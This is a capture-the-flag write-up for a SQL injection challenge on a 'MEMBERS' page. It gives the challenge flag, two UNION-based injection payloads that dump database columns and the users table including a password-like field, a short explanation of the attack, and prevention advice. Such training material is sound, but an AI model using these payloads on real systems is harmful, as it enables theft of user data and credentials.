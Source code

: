 # Sql Injection

## Flag

```
3647470dcedc450d5520eef89ea83bd3070de19e974f3d821fdeef51d12199e3
```

## Discovery and Exploitation

1. Navigate to the **MEMBERS** page.
2. To list all tables in the database, insert the following SQL query:
   ```sql
   1 AND true UNION SELECT table_name, column_name FROM information_schema.columns
   ```
3. To list all columns in the `users` table, insert the following SQL query:
   ```sql
   1 AND true UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
   ```
   > **Note:** The `CONCAT` function is used because there is a restriction that only two columns can be retrieved.
4. Follow the instructions for the user with ID 5 to obtain the flag.

## Why it works

SQL injection works by manipulating the SQL query that is executed by the application. By inserting specially crafted input, an attacker can alter the query's logic, allowing them to access or manipulate data they shouldn't be able to. In this case, the `UNION` operator is used to combine the results of the original query with the results of a malicious query, effectively bypassing the application's intended behavior and exposing sensitive information.

## Prevention

To prevent SQL injection attacks, consider the following measures:

1. **Use Prepared Statements**: Prepared statements ensure that user input is treated as data and not executable code.
2. **Parameterized Queries**: Always use parameterized queries to separate SQL code from data.
3. **Input Validation**: Validate and sanitize all user inputs to ensure they conform to expected formats.
4. **Least Privilege Principle**: Limit database user permissions to only what is necessary for the application to function.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and fix vulnerabilities.
6. **Use ORM Frameworks**: Use Object-Relational Mapping (ORM) frameworks that provide built-in protection against SQL injection.
7. **Web Application Firewalls (WAF)**: Implement WAFs to detect and block SQL injection attempts.

By following these best practices, you can significantly reduce the risk of SQL injection attacks on your application.
